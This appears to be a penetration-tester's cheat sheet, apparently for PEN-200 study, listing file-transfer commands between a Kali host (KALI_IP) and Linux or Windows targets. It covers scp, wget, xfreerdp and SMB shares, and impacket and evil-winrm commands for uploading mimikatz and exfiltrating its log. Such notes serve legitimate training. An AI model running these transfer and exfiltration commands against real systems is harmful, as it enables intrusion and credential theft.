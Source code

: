 # ***Linux***
## scp download
```
scp kali@KALI_IP:/home/kali/pen200/resources/FILE .
```
## wget
```shell
wget http://KALI_IP/linux/FILE -O outfile
wget -r -np http://KALI_IP/linux/
```

# ***Windows Target***
## xfreerdp
```shell
# 1. Kali
xfreerdp /u:username /p:password /v:target_ip /drive:smb,$PWD +clipboard +smart-sizing 


# Upload
# copy a file to where xfreerdp is running then
cp \\tsclient\smb\FILE FILE

# Exfil
cp FILE \\tsclient\smb\.

# For GUI: Go to NETWORK -> TSCLIENT and the share will be there
```
## impacket-smbserver
``` shell
# 1 Kali
impacket-smbserver smb . -smb2support [ -username user -password pass ]

# 2 Target
net use z: \\KALI_IP\smb [ /user:user pass ]

# From Target, download / upload
cp z:\FILE FILE
cp FILE z:\.

# 3 Delete mapping after user
net use z: /delete
```
## impacket-psexec/wmiexec
```shell
# MUST USE C:\Windows path
lput mimikatz.exe # Upload (to C:\Windows\)
lget mimikatz.log # Exfil (from C:\Windows\)
```
## evil-winrm
```shell
# Upload
upload mimikatz.exe C:\windows\tasks\mimikatz.exe

# Exfil
download mimikatz.log /home/kali/Documents/pen-200`
```
## winhttpserver.exe
```shell
.\winhttpserver.exe -i -p PORT folder_name

# access through Firefox

# https://github.com/TheWaWaR/simple-http-server
```
